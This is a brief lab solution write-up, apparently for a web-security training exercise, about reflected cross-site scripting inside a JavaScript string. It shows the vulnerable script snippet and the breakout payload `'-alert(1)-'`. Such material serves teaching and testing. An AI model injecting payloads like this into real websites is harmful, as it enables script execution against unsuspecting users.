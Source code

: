 # Reflected XSS into a JavaScript string with angle brackets HTML encoded
Solution:
- Our input is reflected on a \<script> tag
```html
<script>
var searchTerms = 'xplo1t';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
- Use the following payload `'-alert(1)-'`